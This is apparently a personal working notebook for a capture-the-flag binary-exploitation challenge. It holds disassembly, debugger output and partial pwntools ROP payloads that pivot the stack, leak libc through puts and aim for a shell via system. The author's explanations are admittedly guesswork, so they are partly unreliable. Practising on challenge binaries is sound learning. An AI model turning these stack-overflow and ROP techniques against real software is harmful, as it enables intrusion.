 ```
┌──(kali㉿kali)-[~/Desktop/CTF/silenceWall]
└─$ checksec ./program
[*] '/home/kali/Desktop/CTF/silenceWall/program'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No

```

pop next(libc(...)) into the system to get a shell

# to do:

1. leak the libc with simple small rop chain 

# observations 

the program is quite similar to barelimit. 
1. my_read has 2 parameters which I might be able to determine the size of my own buffer ( if I manage to go in again)
2. the very first my_read(forced)
```c
my_read(buffer,0x30);
```
allows just 48 bytes 

```as
   0x0000000000400842 <+0>:     push   rbp
   0x0000000000400843 <+1>:     mov    rbp,rsp
   0x0000000000400846 <+4>:     sub    rsp,0x10
   0x000000000040084a <+8>:     mov    QWORD PTR [rbp-0x8],rdi
   0x000000000040084e <+12>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400852 <+16>:    mov    rdx,QWORD PTR [rbp-0x10]
   0x0000000000400856 <+20>:    mov    rax,QWORD PTR [rbp-0x8]
   0x000000000040085a <+24>:    mov    rsi,rax
   0x000000000040085d <+27>:    mov    edi,0x0
   0x0000000000400862 <+32>:    call   0x4005b0 <read@plt>
   0x0000000000400867 <+37>:    nop
   0x0000000000400868 <+38>:    leave
   0x0000000000400869 <+39>:    ret
End of assembler dump.
```
we need 8 bytes to get to rbp

8 padding to rbp 
(40 left) i.e. just 5 messages left 
for this challenge we need like 

```py
payload = flat(
    buf, #8

    pop_rsi, # 8
    buf, # 8 
    size, # 8
    my_read, # 8

    leave_ret # 8
)
```
which is at least 6 * 8 = 48 bytes
oh but its not the case if we go to leave_messages... we dont need 6!

1. leave_messages_with_great_care
```
Dump of assembler code for function leave_messages_with_great_care:
   0x000000000040086a <+0>:     push   rbp
   0x000000000040086b <+1>:     mov    rbp,rsp
   0x000000000040086e <+4>:     sub    rsp,0x30
   0x0000000000400872 <+8>:     mov    eax,DWORD PTR [rip+0x2017d4]        # 0x60204c <collapsed>
   0x0000000000400878 <+14>:    test   eax,eax
   0x000000000040087a <+16>:    je     0x400892 <leave_messages_with_great_care+40>
   0x000000000040087c <+18>:    lea    rdi,[rip+0x735]        # 0x400fb8
   0x0000000000400883 <+25>:    call   0x400590 <puts@plt>
   0x0000000000400888 <+30>:    mov    edi,0x0
   0x000000000040088d <+35>:    call   0x4005d0 <exit@plt>
   0x0000000000400892 <+40>:    lea    rdi,[rip+0x747]        # 0x400fe0
   0x0000000000400899 <+47>:    call   0x400590 <puts@plt>
   0x000000000040089e <+52>:    lea    rax,[rbp-0x30]
   0x00000000004008a2 <+56>:    mov    esi,0x60
   0x00000000004008a7 <+61>:    mov    rdi,rax
   0x00000000004008aa <+64>:    call   0x400842 <my_read>
   0x00000000004008af <+69>:    mov    DWORD PTR [rip+0x201793],0x1        # 0x60204c <collapsed>
   0x00000000004008b9 <+79>:    nop
   0x00000000004008ba <+80>:    leave
   0x00000000004008bb <+81>:    ret
```
there is also a function called `leave_messages_with_great_care` 

it :
- takes 48 bytes to get to rbp 
- calls my_read with 96 bytes 
- i guess this is where my ROP chain starts 
- can only be visited once

I am thinking about starting my rop chain in the first `my_read` (but just 4 messages), return to `leave_messages_with_great_care` (6 messages to write and ). next I am jumping back to my_read i guess 



```
 ► 0x400862 <my_read+32>                          call   read@plt                    <read@plt>
        fd: 0 (pipe:[592142])
        buf: 0
        nbytes: 0x602520 ◂— 0

```

# discoveries
from `leave_messages_...` to `buf1`, it was not successful
```
 ► 0x400862 <my_read+32>                          call   read@plt                    <read@plt>
        fd: 0 (pipe:[592142])
        buf: 0
        nbytes: 0x602520 ◂— 0
```



# my undestanding into the problem 

1. we write stuff with my_read, size(second argument controllable but not easy to call and write)
2. if not written, I guess it uses whatever value rsi was at the moment (which may idff from diff libc version)
3. my_read is naturally called in one time in `main` and `leav_messag...` with fixed writing size (but in this call, my read itself can be overflew i guess)
4. my_read in main writes exactly the size of `buffer` variable created, maybe not be able to overflow
5. my read in `leave_...` can overflows 48 bytes ( 6 lines)
6. `main` and `leave_` can only be visited once to prevent direct ROP
7. `leave_...` can be overflew with 48 bytes certainly 


```
 RDI  0x602520 ◂— 0
 RSI  0x7ffed2e9bbd0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA %`'
 ```

 `rsi` from `leave..` to `my_read` seems to be the buffer in `leave...` 


 ```
  ► 0x400862 <my_read+32>                          call   read@plt                    <read@plt>
        fd: 0 (pipe:[731172])
        buf: 0x602520 ◂— 0
        nbytes: 0x7ffed2e9bbd0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA %`'

```


I was watching a TV show with my mother and it felt pretty good, the show was funny and it was good time. I totally enjoyed it lol 
But now it's time to move now, never invest too much on entertainment! 



# Journal on 9a
not so sure if it was exactly how it works or if it is what the challenge expects, again got lucky this time
- the main problem to me was that initial buffer in `leave_messages_with_great_care` (48 bytes left in 96 bytes after padding up to rbp)
- since `my_read` function expects two arguments, one in `rdi` and one in `rsi`. So I was doing `pop rdi ; ret` + `buf1` + `pop rsi ; ret` + `input_size` + `dummy for r15` + `elf.sym['my_read']`and of course the buffer size was not enough 
- then i stared and ran `ni` in pwndbg for quite a while until i found out that padding 48 bytes padding earlier would become the `rsi` i.e. the `input_size` of `my_read` somehow, so I just did

```py
payload1 = flat(
    # 96 bytes to write in this payload 
    b'1' * 0x30,    # padding to rbp, 48 bytes, this would somehow be the rsi lol
    buf1,           # rbp of next stack frame

    # preparing and moving to the next frame 
    pop_rdi_ret,
    buf1,
    elf.sym['my_read'], 

    leave_ret
)
```
as my first payload

I am now still pretty clueless on payload 2 (haven't checked pwndbg on how it works yet)
```py
payload2 = flat(
    # 96 bytes to write 
    buf2,   # rbp of the next frame, this gets popped and ROP chain continues(supposed)

    # leaking the libc addresses
    pop_rdi_ret,
    elf.got['puts'],
    elf.plt['puts'], # should print out the libc addresses

    # preparing and moving to the next frame 

    
    pop_rdi_ret,
    buf2,
    elf.sym['my_read'],
    leave_ret
)
p.send(payload2)
```

So i was just testing if 
```py
    pop_rdi_ret,
    buf2,
    elf.sym['my_read'],
    leave_ret
```
in this case would somehow work while not giving anything as 2nd argument (indeed it worked somehow lol, I guess i am lucky that some random and suitable value on stack goes into `rdi`. I would check check pwndbg on that later) 

